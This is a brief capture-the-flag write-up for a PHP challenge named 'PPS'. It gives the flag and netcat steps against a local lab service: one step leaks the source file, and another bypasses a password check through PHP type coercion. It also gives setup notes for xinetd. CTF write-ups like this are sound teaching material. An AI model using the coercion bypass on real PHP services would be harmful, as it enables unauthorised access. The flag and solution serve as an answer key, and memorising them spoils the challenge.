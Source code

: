 # PPS
## Author
Wiens
## Points
200
## Category
Misc
## Description

## Flag
`flag{ConsiderThisPUNishmentEnough}`
## Solution
1. Leak source
```
nc localhost 5665
4
pps.php
2
```
2. Leak flag
With the source, find the hidden password, evade the string matching via PHP's awesome forced coersion:
```
nc localhost 5665
5
0xabadfad
flag
2
```

## Setup
Just move the files from deploy somewhere on a filesystem. Preferrably give whatever runs the php no permissions to write anything anywhere. Then launch via xinetd on port 5665 (or whatever).